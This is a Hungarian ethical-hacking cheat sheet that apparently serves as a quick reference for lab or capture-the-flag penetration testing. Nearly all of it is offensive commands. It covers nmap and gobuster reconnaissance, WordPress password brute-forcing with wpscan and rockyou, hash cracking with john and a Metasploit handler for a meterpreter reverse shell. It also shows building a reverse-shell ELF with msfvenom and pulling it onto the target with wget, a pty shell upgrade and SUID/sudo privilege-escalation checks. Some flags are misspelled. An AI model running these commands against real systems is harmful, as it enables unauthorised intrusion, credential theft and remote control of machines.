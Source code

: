 # Etikus hackelés cheat-sheet

## Alapvető paracsok:

- `ping $RHOST`
- `sudo nmap -sS -sV -O -sC $RHOST` esetleg, ha ismerjük (-p PORT)
- `gobuster dir -u http://$RHOST -w /usr/share/wordlists/dirb/small.txt` vagy `/usr/share/wordlists/dirb/big.txt`
  Gobuster helyett lehet dirb-t is használni: `dirb http://$RHOST {megfeleő szólista} (-r)`, ahol a -r kikapcsolja a rekurzív keresést

## Wordpress esetén:

- `wpscan --url http://$RHOST --userames {filename} --passwords {filename}` -(itt lehet használni pl.: usr/share/wordlists/rockyou.txt)
- Ha kapunk egy hash-t:
- Hash típusának meghatározása: `hash-identifier`
- Hash feltörése: `john {filename} --format={az előbb meghatározott típus, pl.: raw-md5} --wordlists=/usr/share/wordlists/dirb/rockyou.txt`

## Netcat listener készítése:

- `nc -lvnp 5555` (5555=PORT, ez lehet más is)

## Msfconsole multi/handler:

- `>> set payload linux/x64/meterpreter_reverse_tcp`
- `set lhost $LHOST`
- `set rhost $RHOST`
- `set lport 5555`
- `run`

#### Ha kaptunk meterpreter shell-t, akkor egyszerűen az `upload` és `download` parancsokat használhatjuk

## Interaktív shell készítése:

- Ha van python a célgépen: `python -c "import pty; pty.spawn('/bin/bash')"`, de más eszközök is rendelkezésre állnak a gépen elérhető programok függvényében pl.: `perl`. Ha találunk valami ilyesmit, akkor érdemes lecsekkolni a [gtfobins](https://gtfobins.github.io/#python)-en.

## SUID bitek keresése:

- `find / -perm /u=s 2>/dev/null`

## Shell kódok készítése msfvenommal:

- `msfvenom -p linux/x64/meterpreter_reverse_tcp LHOST=$LHOST RHOST=$RHOST LPORT=5555 -f elf > revshell.elf`
- Ha pl. windowsos célgépet támadunk akkor az .elf kiterjesztés helyett a .exe kiterjesztést használjuk.

## SSH alapok:

- Eszközhöz való csatlakozás: `ssh -p PORT username@$RHOST`
- Eszközhöz való csatlakozás privát kulcs használatával: `ssh -p PORT -i {privát kulcs} username@$RHOST`, viszont ekkor a privát kulcs publikus párjána szerepelnie kell a felhasználó `~/.ssh/authorized keys` fájljában.

## Privát kulcs készítése:

- `openssl genpkey –algorithm RSA -pkeyopt rsa_keygen_bits:2048 > privat.pem` vagy `ssh-keygen -t rsa -b 2048`

## Publikus kulcs készítése privátból:

- `ssh-keygen -f privat.pem -y > publikus.pub`

## Python szerver:

- `python3 -m http.server`
- Letöltés a szerverről: `wget http://$RHOST:8000/revshell.elf`

## A sudo parancs:

- `sudo -l`
- Futtatás más felhasználó nevében (pl.: SUID bitünk van): `sudo -u username ...parancsok`

## Szkriptelés:

- Szkriptek elejére: `#!/bin/zsh` vagy `#!/bin/bash`
- Hasznos oldal lehet még a [pentestmonkey](https://pentestmonkey.net/category/cheat-sheet) is
